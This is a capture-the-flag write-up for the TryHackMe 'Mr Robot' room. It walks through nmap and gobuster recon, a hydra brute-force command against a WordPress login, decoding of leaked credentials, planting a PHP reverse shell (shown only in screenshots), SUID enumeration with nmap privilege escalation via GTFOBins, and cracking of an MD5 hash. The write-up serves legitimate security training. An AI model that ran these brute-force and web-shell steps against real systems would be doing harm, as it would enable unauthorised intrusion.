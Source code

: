 Mr Robot CTF
===
###### tags: `THM` `Medium`
###### Link: https://tryhackme.com/room/mrrobot

# Recon

## Nmap
```bash
$ sudo nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn $ip
```
```
PORT    STATE SERVICE REASON
80/tcp  open  http    syn-ack ttl 63
443/tcp open  https   syn-ack ttl 63
```

### OS
TTL --> Linux

### Detect services
```bash
$ nmap -sCV -p 80,443 $ip
```
```
80/tcp  open  http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open  ssl/http Apache httpd
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
```

### Well-known vulnerabilities
```bash
$ nmap -Pn -sV -v --script vuln -p 80,443 $ip
```
```
80/tcp  open  http     Apache httpd
| http-enum:
|   /admin/: Possible admin folder
|   /admin/index.html: Possible admin folder
|   /wp-login.php: Possible admin folder
|   /robots.txt: Robots file
|   /feed/: Wordpress version: 4.3.1
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|   /readme.html: Interesting, a readme.
|   /0/: Potentially interesting folder
|_  /image/: Potentially interesting folder
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Apache
443/tcp open  ssl/http Apache httpd
|_http-server-header: Apache
| http-enum:
|   /admin/: Possible admin folder
|   /admin/index.html: Possible admin folder
|   /wp-login.php: Possible admin folder
|   /robots.txt: Robots file
|   /feed/: Wordpress version: 4.3.1
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|   /readme.html: Interesting, a readme.
|   /0/: Potentially interesting folder
|_  /image/: Potentially interesting folder
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.

```

## Dirsearch | Gobuster

Dirsearch is going to slow, lets try with gobuster
```bash
$ gobuster dir -u http://$ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It's slow too but we have some results in a few minutes:
![701f7963111334ba6a720c55da66b81a.png](/THM/mrrobot/_resources/701f7963111334ba6a720c55da66b81a.png)

Interesting paths:
```
/intro                (Status: 200) [Size: 516314]
/wp-login             (Status: 200) [Size: 2657]
/license              (Status: 200) [Size: 309]
/readme               (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]
```

# Explotation

![7106b69f28f8332d7ee87466f7272a03.png](/THM/mrrobot/_resources/7106b69f28f8332d7ee87466f7272a03.png)

There is a path to a dicctionary hidden in the robots.txt

## Web Autentication
Let's use it to force the wp-login:
```
hydra -l fsocity.dic -p test -v $ip http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.91.194%2Fwp-admin%2F&testcookie=1:Invalid username'
```

Found one user --> **Elliot**

It takes too much time to finish, so asume the user that we need is it.

Looking at the other interesting paths we have:
Nothing in /readme
![472dae3399f636a1c7c580ff536d4dbb.png](/THM/mrrobot/_resources/472dae3399f636a1c7c580ff536d4dbb.png)

But there is something in the /license path:
![0d7c805c485083b98f3e5dfb6d6293a3.png](/THM/mrrobot/_resources/0d7c805c485083b98f3e5dfb6d6293a3.png)

ZWxsaW90OkVSMjgtMDY1Mgo=

elliot:ER28-0652

This user:password works in the /wp-login.php

![8125761235566f76a4815d4dd1c7e3ef.png](/THM/mrrobot/_resources/8125761235566f76a4815d4dd1c7e3ef.png)

## Spawn a shell

We are admins, so we need to modify some page that we can access and put a php reverse shell:

![5679f8a5fdd16e8de45997ba1f557b98.png](/THM/mrrobot/_resources/5679f8a5fdd16e8de45997ba1f557b98.png)

![19d398a7345e850336470290947cbd21.png](/THM/mrrobot/_resources/19d398a7345e850336470290947cbd21.png)

http://10.10.58.91/wp-content/themes/twentyseventeen/404.php
![b2f03ea0b49798c4e3341e5f5fec786d.png](/THM/mrrobot/_resources/b2f03ea0b49798c4e3341e5f5fec786d.png)

Put the reverse shell:
![9bbfbf3a57b3f2e12b3476f93e43c1f3.png](/THM/mrrobot/_resources/9bbfbf3a57b3f2e12b3476f93e43c1f3.png)

And it's done:
![cafc991c7ec529c40363cb0b3dae541d.png](/THM/mrrobot/_resources/cafc991c7ec529c40363cb0b3dae541d.png)

# Post-explotation

### SUID
```bash
$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
```
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 69120 Feb 12  2015 /bin/umount
-rwsr-xr-x 1 root root 94792 Feb 12  2015 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 36936 Feb 17  2014 /bin/su
-rwxr-sr-x 3 root mail 14592 Dec  3  2012 /usr/bin/mail-touchlock
-rwsr-xr-x 1 root root 47032 Feb 17  2014 /usr/bin/passwd
-rwsr-xr-x 1 root root 32464 Feb 17  2014 /usr/bin/newgrp
-rwxr-sr-x 1 root utmp 421768 Nov  7  2013 /usr/bin/screen
-rwxr-sr-x 3 root mail 14592 Dec  3  2012 /usr/bin/mail-unlock
-rwxr-sr-x 3 root mail 14592 Dec  3  2012 /usr/bin/mail-lock
-rwsr-xr-x 1 root root 41336 Feb 17  2014 /usr/bin/chsh
-rwxr-sr-x 1 root crontab 35984 Feb  9  2013 /usr/bin/crontab
-rwsr-xr-x 1 root root 46424 Feb 17  2014 /usr/bin/chfn
-rwxr-sr-x 1 root shadow 54968 Feb 17  2014 /usr/bin/chage
-rwsr-xr-x 1 root root 68152 Feb 17  2014 /usr/bin/gpasswd
-rwxr-sr-x 1 root shadow 23360 Feb 17  2014 /usr/bin/expiry
-rwxr-sr-x 1 root mail 14856 Dec  7  2013 /usr/bin/dotlockfile
-rwsr-xr-x 1 root root 155008 Mar 12  2015 /usr/bin/sudo
-rwxr-sr-x 1 root ssh 284784 May 12  2014 /usr/bin/ssh-agent
-rwxr-sr-x 1 root tty 19024 Feb 12  2015 /usr/bin/wall
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
-rwsr-xr-x 1 root root 440416 May 12  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
-r-sr-xr-x 1 root root 9532 Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 14320 Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 10344 Feb 25  2015 /usr/lib/pt_chown
-rwxr-sr-x 1 root shadow 35536 Jan 31  2014 /sbin/unix_chkpwd
```

https://gtfobins.github.io/gtfobins/nmap/

![73b8a10ae6061b911a0e49c74653dcf2.png](/THM/mrrobot/_resources/73b8a10ae6061b911a0e49c74653dcf2.png)

**I think I forgot one step... I obtain two flags in a row**

## User flag
Let's see how they want I reach the user flag:

The flag is under robot user home:
![ab2931532dcafa185e320e921c2858ae.png](/THM/mrrobot/_resources/ab2931532dcafa185e320e921c2858ae.png)

I don't have permissions to read it, but there is other file that I can read:
![e8e56e9cbeae53f02c86e5d3cfb52cfe.png](/THM/mrrobot/_resources/e8e56e9cbeae53f02c86e5d3cfb52cfe.png)

robot:c3fcd3d76192e4007dfb496cca67e13b

That seems an md5 hash, and it is:
![87d310c27049882dd3a2582ebb3d5437.png](/THM/mrrobot/_resources/87d310c27049882dd3a2582ebb3d5437.png)

Lets use the credentials to login with the user robot and read the user flag witouth root:
![6f74b03ff96c3ee3b47cc2ba314719b8.png](/THM/mrrobot/_resources/6f74b03ff96c3ee3b47cc2ba314719b8.png)

Done!
